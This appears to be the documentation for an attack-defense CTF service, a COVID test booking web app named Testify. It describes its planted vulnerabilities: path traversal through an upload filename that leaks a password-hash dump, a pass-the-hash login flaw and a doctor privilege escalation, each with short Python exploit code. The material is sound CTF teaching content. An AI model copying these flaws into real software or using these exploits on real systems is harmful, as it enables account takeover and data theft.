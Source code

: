 <ins>Testify Service documentation
======================
# <ins>Basic functionality

The Homepage of Testify briefly informs you about the basic concept of this service. 
After the user is registered/logged in, he is able to make COVID-19 rapid test appointments.
The registration can be done directly from the Homepage using the `Signup` Button in the Login Section.
After a successful login, the user gets redirected _Appointments_ page.

### Appointments-Section [ <ins>/appointments]
To make an appointment, a bunch of fields need to be filled. While most of the input is self-explanatory, the user also has
to choose one of the 5 doctors and can provide an _extra info_ (Flagstore #2) for the doctor. The user also sets an Appointment PIN
which is needed to view the _extra information_ (needed for checker getflag). This Appointment PIN is mandatory as the _extra info_
cannot be viewed by simply logging in with the user credentials because this would mix up the two Flagstores. Lastly, the user
can upload an optional file for identity verification purposes (important for Flagstore #1 and VULN #1). After all necessary fields
have been submitted, the appointment is made and a success notification with the just created appointment ID is displayed.
The user will also be able to see all his previously created appointments right below the appointment form (important for
Flagstore #1). This functionality is havoc'd.

### Appointment-Info [ <ins>/appointment_info]
As mentioned in the previuos paragraph, the user (and checker) can retrieve the given _appointment extra info_ using the 
generated appointment ID and the chosen Appointment PIN. This can be done by simply submitting both values to the `/appointment_info` page.
This functionality is havoc'd.

### Restore Username [ <ins>/restore_username]
If the user has forgotten his username, he is able to submit his email address to the `/restore_username` page and his
username will be returned. This is a on-top function which is not needed for the basic usage or any of the flagstores but is
still havoc'd.

### About Page [ <ins>/about]
The about page simply displays the last 1000 users of the DB ordered by the most recently created ones. They are separated by a ` - `.
The user list is created by a mysqldump-call on the DB using a low-privileged user creating a `dump.sql` file every time the 
`/about` page is loaded. The dump command however, excludes the doctors as this would lead to a mix of both flagstores.
The frontend simply reads the users from the file. This functionality is havoc'd.

### Doctor's Page [ <ins>/doctors]
The doctor's page is the entrypoint users that are also doctors. This page can only be viewed if the user that is currently logged
in is a doctor otherwise one is immediately redirected to the homepage without an error message. When authenticated as a doctor,
one is able to simply submit the username of any user and the frontend will return a list of the users appointments containing a
column for the chosen doctor and the _extra info_ (important for Flagstore #2). This functionality is havoc'd.


# <ins>Vulnerabilities (3)

The Testify Service consists of three different Vulnerabilities. Two of them must be exploited after each other to access FLAGSTORE #1.
The third VULN leads to FLAGSTORE #2

## VULN #1: User Password Hash Exposure

- Category: Sensitive Data Exposure
- Difficulty: Medium

When registering a new user, a `.sql` dump file of the user database containing the password hashes is created.  
The attacker can retrieve this dump file by using a modified file name when uploading his ID in the appointments
section.

## VULN #2: Pass-The-Hash

- Category: Authentication
- Difficulty: Medium

The password is not allowed to contain any special characters other than ASCII. If the user passes a password string,
that does include non-ASCII characters (*e.g. a password hash obtained by VULN#1*) the hashing of the input password
string is skipped and directly compared to the hash in the user credential databse.


## VULN #3 User Privilege Escalation

- Category: User Privelege Administration
- Difficulty: Easy

When a user makes an appointment, an additional info for the doctor is submitted optionally (FLAGSTORE). This info can only
be viewed by a doctor having set the `is_doctor` attribute in the DB (doctor01,...,doctor05). However the `check_doctor()` 
function also checks whether the accessing user shows up as a assigned doctor in the `appointment` table of the DB. If so, 
the user is also considered a doctor and access to the info field (FLAGSTORE) of any user is granted.

# <ins>Exploits

Two different exploits for VULN#1 and VULN#2 need to be run after each other to obtain a flag.

## VULN #1 :

1. Make an appointment containing a file with arbitrary content but using the filename `../online_users/dump.sql`
2. In the appointments overview section: Use the *Download ID* button to download the hijacked `dump.sql` file

### Code

```
        self.register(username, password)
        self.http_get('/about')
        
        filename = '../online_users/dump.sql'

        app_id = self.make_appointment(prename, lastname, filename, date, time, file, 'doctor0' + str(random.randint(1, 5)), pin)
        route = '/get_id' + str(app_id)

        kwargs = {
            'allow_redirects': True
        }

        res = self.http_get(route, **kwargs)
        sql_string = res.content.decode('ascii').splitlines()
        user_list = [i.split(',')[1:3] for i in sql_string]
```

## VULN #2 :

1. Retrieve a user/hash pair from .sql dump file using VULN #1
2. Pass this hash as base64 to `/login` route.
3. Search response appointment content for flag

### Code

```
    def pass_the_hash(user, hash):
        obj = {
                'username': user,
                'password': base64.b64encode(bytes.fromhex(hash)).decode('ascii'),
                'login': 'signin'
        }
        req = requests.post('http://localhost:8597/login', data=obj)
        return req.text
```

## VULN #3 :

1. Create appointment with a new user while stating this newly created user as the doctor in the make_appointment form (using POST-request)
2. Access the `/doctors` page to retrieve the info for the users returned by `/about` page 

### Code

```
    self.register(username, password)

    app_id = self.make_appointment(prename, lastname, filename, date, time, file, username, pin)

    text = self.http_get('/about').text
    splits = text[text.find('onlineUsers'):].split('&#39;')
    splits = splits[1:]
    del splits[1::2]
    for s in splits:
        kwargs = {'data': {'patient_username': s},
                  'allow_redirects': True}
        pot_flag = self.http_post('/doctors', **kwargs)

        if flag := self.search_flag(pot_flag.text):
            return flag
```